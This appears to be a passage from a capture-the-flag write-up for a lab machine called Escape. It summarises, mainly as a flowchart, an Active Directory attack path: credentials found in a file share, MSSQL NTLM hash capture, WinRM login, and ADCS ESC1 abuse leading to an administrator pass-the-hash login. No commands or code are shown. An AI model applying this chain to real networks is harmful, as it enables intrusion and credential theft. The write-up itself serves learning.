ADCS, found it vulnerable toESC1 - Abused
ESC1, got administrator’spfxand extracted theNTLMhash - Logged in as administrator via the
NTLMhash - grabbed root flag
Flow chart
flowchart TD
%% Reconnaissance
subgraph Reconnaissance
style Reconnaissance fill:blue,stroke:blue,stroke-width:2px
R1[Nmap Scan → Found multiple services: <b>RPC</b>, <b>SMB</b>, <b>LDAP</b>]
R2[<b>RPC Enumeration</b> → nothing useful]
R3[<b>SMB Enumeration</b> → share with PDF containing <b>credentials</b>]
R4[<b>LDAP Enumeration</b> → nothing useful]
R5[Correlated PDF <b>credentials</b> with <b>MSSQL</b> service]
R6[<b>MSSQL Enumeration</b> → databases found, nothing further]
R1 --> R2
R1 --> R3
R1 --> R4
R3 --> R5
R5 --> R6
style R1 fill:mediumblue,stroke:darkblue,stroke-width:1px,color:white
style R2 fill:mediumblue,stroke:darkblue,stroke-width:1px,color:white
style R3 fill:deepskyblue,stroke:blue,stroke-width:1px,color:white
style R4 fill:mediumblue,stroke:darkblue,stroke-width:1px,color:white
style R5 fill:limegreen,stroke:green,stroke-width:1px,color:white
style R6 fill:dodgerblue,stroke:blue,stroke-width:1px,color:white
end
%% Foothold
subgraph Foothold
style Foothold fill:orange,stroke:darkorange,stroke-width:2px
F1[Leaked <b>NTLM hash</b> via <b>MSSQL</b> → capture hash of <b>sql_svc</b>]
F2[Logged in as <b>sql_svc</b>]
F3[Enumerated files/folders → SQL error logs with <b>creds</b> for <b>ryan.cooper</b>]
F4[Logged in via <b>WinRM</b> as <b>ryan.cooper</b>]
F5[Grabbed <b>user flag</b>]
F1 --> F2
F2 --> F3
F3 --> F4
F4 --> F5
style F1 fill:orangered,stroke:red,stroke-width:1px,color:white
style F2 fill:darkorange,stroke:red,stroke-width:1px,color:white
style F3 fill:dodgerblue,stroke:blue,stroke-width:1px,color:white
style F4 fill:limegreen,stroke:green,stroke-width:1px,color:white
style F5 fill:gold,stroke:darkgoldenrod,stroke-width:1px,color:black
end
%% Privilege Escalation
subgraph Privilege_Escalation
style Privilege_Escalation fill:gray,stroke:black,stroke-width:2px
P1[<b>ryan.cooper</b> group membership → indicates <b>ADCS</b> existence]
P2[Enumerated <b>ADCS</b> → vulnerable to <b>ESC1</b>]
P3[Abused <b>ESC1</b> → got admin <b>PFX</b> → extracted <b>NTLM hash</b>]
P4[Logged in as <b>Administrator</b> via <b>NTLM hash</b>]
P5[Grabbed <b>root flag</b>]
P1 --> P2
P2 --> P3
P3 --> P4
P4 --> P5
style P1 fill:red,stroke:darkred,stroke-width:1px,color:white
style P2 fill:orangered,stroke:red,stroke-width:1px,color:white
style P3 fill:dodgerblue,stroke:blue,stroke-width:1px,color:white
style P4 fill:limegreen,stroke:green,stroke-width:1px,color:white
style P5 fill:gold,stroke:darkgoldenrod,stroke-width:1px,color:black
end
%% Connect phases
R6 --> F1
F5 --> P1
Sidenotes
To sump up, Escape was a medium difficulty machine, leveraging basic enumeration and MSSQL for the foothold part, and ADCS abuse via ESC1 vulnerability for the privesc.
This one will contribute to my knowledge mainly for the MSSQL and ADCS (ESC1) abuse parts.